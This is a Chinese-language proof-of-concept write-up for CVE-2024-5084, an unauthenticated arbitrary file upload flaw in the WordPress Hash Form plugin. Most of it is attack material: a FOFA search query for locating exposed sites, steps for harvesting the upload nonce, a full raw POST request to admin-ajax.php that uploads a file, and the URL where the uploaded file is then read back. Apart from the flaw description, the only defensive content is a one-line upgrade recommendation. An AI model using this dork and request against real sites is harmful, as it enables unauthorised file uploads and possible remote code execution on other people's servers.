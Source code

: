**漏洞名称**

WordPress的Hash表单任意文件上传漏洞

**漏洞影响**

<= 1.1.0 版本

**漏洞描述**

WordPress的Hash表单 - 拖放表单构建器插件由于在所有版本中缺失'file_upload_action'函数中的文件类型验证，存在任意文件上传漏洞，包括1.1.0版本。这使得未经身份验证的攻击者可以在受影响站点的服务器上上传任意文件，可能导致远程代码执行。

**FOFA搜索语句**

```
"/wp-content/plugins/hash-form/"
```

**漏洞复现**

第一步，请求目标网站，从body中获取ajax_nounce的值

![图片](CVE-2024-5084%20WordPress%E7%9A%84Hash%E8%A1%A8%E5%8D%95%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.assets/640.png)



第二步，上传文件，路径中file_uploader_nonce用第一步获取到的值，qqfile为上传文件名5a499f6e26313e19bd4049009bbed5bd为上传文件内容

```yaml
POST /wp-admin/admin-ajax.php?action=hashform_file_upload_action&file_uploader_nonce=5ec33b3537&allowedExtensions%5B0%5D=txt&sizeLimit=1048576&qqfile=YwlKW.txt HTTP/1.1 
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:78.0) Gecko/20100101 Firefox/78.0
Connection: close
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: request_a_quote_user_coockie=668e50f1d574c; PHPSESSID=6ltqhpjj2f7ciavd9s8dvh1i0e
Accept-Encoding: gzip

5a499f6e26313e19bd4049009bbed5bd
```



第三步，查看回显文件

```
http://x.x.x.x/wp-content/uploads/hashform/temp/YwlKW.txt
```



![图片](CVE-2024-5084%20WordPress%E7%9A%84Hash%E8%A1%A8%E5%8D%95%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.assets/640-1720669159369-3.png)

漏洞复现成功

**修复建议**

升级到最新版本。